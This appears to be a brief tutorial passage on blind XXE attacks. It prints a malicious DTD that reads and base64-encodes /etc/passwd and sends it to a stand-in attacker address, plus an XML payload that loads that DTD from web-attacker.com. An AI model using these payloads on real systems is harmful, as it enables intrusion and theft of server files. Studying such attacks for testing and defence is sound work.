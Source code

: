 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://web-attacker.com/malicious.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&content;</productId></stockCheck> <!-- Reference the content from ENTITY in our malicious.dtd -->
```